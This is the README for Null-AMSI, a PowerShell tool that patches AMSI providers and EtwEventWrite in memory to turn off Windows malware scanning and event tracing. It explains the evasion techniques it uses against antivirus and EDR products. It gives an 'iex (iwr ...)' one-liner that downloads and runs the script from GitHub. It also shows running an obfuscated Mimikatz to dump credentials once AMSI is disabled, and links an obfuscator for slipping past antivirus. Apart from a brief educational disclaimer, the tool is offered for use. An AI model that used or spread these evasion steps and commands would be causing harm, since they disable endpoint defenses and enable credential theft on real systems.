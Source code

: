 [![Telegram](https://badgen.net/badge/icon/telegram?icon=telegram&label)](https://t.me/MalwareBit)
[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://github.com/BlackShell256/Null-AMSI/blob/main/LICENSE)
[![LinkedIn](https://img.shields.io/static/v1.svg?label=LinkedIn&message=@anibal&logo=linkedin&style=flat&color=blue)](https://www.linkedin.com/in/anibal-5a3870278/)

# Null-AMSI

## Description
The Null-AMS script is a tool that takes advantage of native PowerShell features and .NET functions using reflection, in order to modify the memory of amsi.dll, to disable its malware scanning and be free to execute scripts and malicious code. This tool is for educational use to understand the role of AMSI in protecting against malware and the implications of bypassing these defense mechanisms.

### AMSI
AMSI (Antimalware Scan Interface) is an application programming interface (API) developed by Microsoft that allows Windows applications and services to interact with third-party antivirus and antimalware software to detect and block malicious activity. AMSI was introduced in Windows 10 and is designed to improve security by allowing code, such as scripts, macros, and other potentially dangerous elements, to be scanned for malicious patterns before executing.

![image](https://github.com/user-attachments/assets/fa9ae24f-cbaa-4340-8010-536ad5949d0f)

### Reflection
Reflection in PowerShell refers to the ability to inspect and manipulate data types (such as classes, methods, properties and fields) at runtime, without needing to know their definition at compile time. This functionality is based on the .NET reflection system, which allows scripts and programs to access type and object metadata, make dynamic method calls, and modify properties or fields through reflection.

Amsi patches usually use Add-Type to add .NET types inside PowerShell, this method for AV or EDR is highly detected.
![image](https://github.com/user-attachments/assets/c03ec594-8b45-4af5-93ec-7f699d401619)

To avoid this, Null-AMSI uses reflection and use native functions, with this we can get the address of GetModuleHandle and GetProcAddress, we can use these functions to patch AMSI without alerting AV/EDR.

### Features
- *Native Memory Manipulation*: Null-AMSI uses functions from the “System.Runtime.InteropServices.Marshal” assembly to manipulate memory avoiding the use of ReadProcessMemory or WriteProcessMemory which are highly scrutinized by security measures.
  
- *All in memory*: The tool works in memory, when using "Add-Type" this function compiles the code into a C# dll, at that time your patch can be highly detected by an AV/EDR, this is avoided with reflection and kept in memory with stealth.
  
- *Effective patch bypass*: In contrast to traditional AMSI evasion techniques, which typically patch AmsiScanBuffer (highly flaged and documented) Null-AMSI patches AMSI providers, which guarantees a higher success rate against AV/EDR engines.

- *Multi-Architecture*: Works for both 32-bit and 64-bit PowerShell, to run in any environment, for this it checks the length in bytes of the IntPtr data type.

- *Evasion in memory modification*: By modifying the memory address permissions of AMSI providers and **EtwEventWrite** using the **VirtualProtect** function, **PAGE_EXECUTE_WRITECOPY** protection is employed, an uncommon configuration that favors evasion of security mechanisms. This protection contributes to the patch's effectiveness by allowing memory modifications to be made in a way that is more difficult for security tools to detect.

### ETW Patching
ETW (Event Tracing for Windows) is Microsoft's real-time event tracing and collection infrastructure for logging, monitoring and analyzing operating system and application events in Windows at the Kernel level. In the context of computer security and threat detection, ETW is a very valuable tool for Antivirus (AV) and Endpoint Detection and Response (EDR) solutions, as it provides detailed information about system activities that may be indicative of malicious behavior. Null-AMSI patches EtwEventWrite (optionally) by returning the execution flow to the next instruction.

## Use

To Use Null-AMSI, run the following commands:

With this command we will execute Null-AMSI in memory 
```
iex (iwr -UseBasicParsing https://raw.githubusercontent.com/BlackShell256/Null-AMSI/refs/heads/main/Null-4MSI.ps1)
```
For AMSI patching only
```
Invoke-NullAMSI
```
For AMSI and ETW patching
```
Invoke-NullAMSI -etw
```
To get verbose and more information about the tool
```
Invoke-NullAMSI -v
```

### Usage example
1. Run the Null-AMSI tool, I added verbose flags and ETW patch (optional).
![image](https://github.com/user-attachments/assets/6f5ee3f1-0c93-4d23-9388-57135abd6506)

2. Now we can run Mimikatz with amsi disabled, I used an obfuscated version of Mimikatz ([Mimikatz-Obfuscated](https://raw.githubusercontent.com/BlackShell256/Null-AMSI/refs/heads/main/Invoke-Mimikatz.ps1)) with zlib and base64 to avoid the http detection of my Eset Premium AV.
To obfuscate use: https://github.com/BlackShell256/Null-AMSI/blob/main/NullObfuscate.py (python3 NullObfuscate.py -f Invoke-Mimikatz.ps1 -o Obfuscated-Mimikatz.ps1)
![image](https://github.com/user-attachments/assets/caed0aae-ab4e-4d24-8761-52a03fd1a31f)

### Poc Evasion
[Full Video](https://www.linkedin.com/posts/anibal-5a3870278_evasion-bypass-amsi-activity-7264104326703329280-S8Y9?utm_source=share&utm_medium=member_desktop)
![image](https://github.com/user-attachments/assets/6c832166-92b5-446a-893c-273249cd68a8)

### Poc Evasion 2
[Full Video](https://www.linkedin.com/posts/anibal-5a3870278_evasion-bypass-amsi-activity-7264104326703329280-S8Y9?utm_source=share&utm_medium=member_desktop)
![image](https://github.com/user-attachments/assets/c40466b1-6a05-4941-9530-0520723b1fa3)


## Credit

* Some of the Reflection code I learned from Matt Graeber. [X/Twitter](https://x.com/mattifestation)

* Patch by Maor Korkos [X/Twitter](https://x.com/maorkor)

